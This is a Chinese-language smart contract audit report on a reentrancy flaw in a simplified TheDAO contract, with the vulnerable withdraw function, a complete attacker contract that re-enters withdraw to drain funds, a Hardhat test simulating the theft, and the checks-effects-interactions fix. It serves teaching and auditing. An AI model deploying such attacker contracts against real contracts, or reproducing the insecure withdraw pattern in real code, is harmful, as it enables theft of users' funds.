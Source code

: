 # 智能合约审计报告

## 漏洞明细

### 合约的 withdraw 函数可以被重入攻击转移全部资产

- **严重性**：高
- **困难度**：低
- **目标**：TheDAO 合约的 withdraw 函数

#### 描述

重入攻击是当攻击者能够在原合约完成所有状态更新之前，多次调用并执行一个函数。在`TheDAO`合约的 `withdraw` 函数中，资金在更新状态变量之前被发送给调用者，这使得调用者可以在单个交易中多次提取资金。

下面是 `TheDAO` 合约的代码片段：

```solidity
contract TheDAO {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed.");
        balances[msg.sender] = 0;
    }
}
```

在 `withdraw` 函数中，首先通过 `call` 方法向调用者发送资金，然后才更新 `balances` 映射。如果调用者是一个恶意合约，其回退函数可以再次调用 `withdraw`，从而在 `balances` 映射被更新之前多次取款。

#### 攻击场景

攻击者创建并部署以下攻击合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./TheDAO.sol";

contract TheDAOAttacker {
    TheDAO public theDAO;
    address payable owner;

    constructor(address theDAOAddress) {
        theDAO = TheDAO(theDAOAddress);
        owner = payable(msg.sender);
    }

    function attack() external payable {
        theDAO.deposit{value: msg.value}();
        theDAO.withdraw();
    }

    // 回退函数，它会在 TheDAO 合约试图将以太币发送回本合约时被调用
    fallback() external payable {
        if (address(theDAO).balance >= msg.value) {
            theDAO.withdraw();
        }
    }

    // 收回攻击获得的以太币
    function collectEther() external {
        owner.transfer(address(this).balance);
    }

    receive() external payable {
    }
}
```

攻击合约的回退函数在接收到资金时再次调用 `withdraw` 函数。通过调用 `attack` 函数，攻击者能够触发重入攻击并多次提款。

为了模拟此攻击，我们可以使用以下测试代码：

```js
const { expect } = require("chai");

describe("TheDAO", function () {
  it("Should perform re-entrancy attack", async function () {
    const [owner, attacker, user1, user2] = await ethers.getSigners();
    
    // 部署目标合约
    const TheDAOFactory = await ethers.getContractFactory("TheDAO");
    const theDAO = await TheDAOFactory.deploy();
    await theDAO.deployed();
    
    // 部署攻击合约
    const TheDAOAttackerFactory = await ethers.getContractFactory("TheDAOAttacker");
    const theDAOAttacker = await TheDAOAttackerFactory.deploy(theDAO.address);
    await theDAOAttacker.deployed();

    // 使用多个地址向目标合约存入以太币
    const depositAmount = ethers.utils.parseEther("1");
    await theDAO.connect(owner).deposit({ value: depositAmount });
    await theDAO.connect(user1).deposit({ value: depositAmount });
    await theDAO.connect(user2).deposit({ value: depositAmount });
    
    // 攻击者通过攻击合约存入1个Ether
    const attackerInitialBalance = await attacker.getBalance();
    await theDAOAttacker.connect(attacker).attack({ value: depositAmount, gasLimit: 4000000 });

    // 检查攻击者的余额，应该大于最初的余额
    const attackerFinalBalance = await attacker.getBalance();
    expect(attackerFinalBalance).to.be.gt(attackerInitialBalance);
  });
});
```

这个测试代码首先部署目标合约和攻击合约。然后使用多个地址向目标合约存入以太币，包括攻击者的地址。接着，攻击者通过调用攻击合约的`attack`函数触发重入攻击。测试代码检查攻击后攻击者的余额，如果攻击成功，攻击者的余额应该大于最初的余额。

#### 推荐修复

为防止重入攻击，建议使用检查-效应-交互的模式。首先更新 `balances` 映射，然后再发送资金。

修复后的代码片段：

```solidity
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed.");
}
```

通过首先设置 `balances[msg.sender]` 为0，我们确保即使调用者再次调用`withdraw`函数，`amount`也会为0，从而防止重入攻击。

#### 参考资料

1. [与 GPT-4 的聊天记录](https://chat.openai.com/share/4003d7fc-fdaa-4aa2-8300-b0947f67ccef)。
2. [0x Protocal 的审计文档](https://github.com/trailofbits/publications/blob/master/reviews/0x-protocol.pdf)。
3. [Solidity By Example 的重入攻击的示例](https://solidity-by-example.org/hacks/re-entrancy/)。

#### 鸣谢

谷歌插件：[Immersive Translate](https://chrome.google.com/webstore/detail/immersive-translate/bpoadfkcbjbfhfodiogcnhhhpibjhbnh)。